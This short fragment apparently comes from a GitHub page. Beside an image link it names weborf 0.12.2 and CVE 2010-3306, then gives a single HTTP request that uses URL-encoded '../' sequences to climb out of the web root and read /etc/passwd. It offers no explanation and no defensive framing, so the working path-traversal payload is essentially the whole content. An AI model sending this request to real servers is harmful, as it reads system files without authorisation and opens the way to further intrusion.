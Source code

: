 ![image](https://user-images.githubusercontent.com/74050386/198943688-ab3bcb8d-4b9b-4171-8980-9a430facb77e.png)

weborf 0.12.2 CVE 2010-3306 

GET /..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

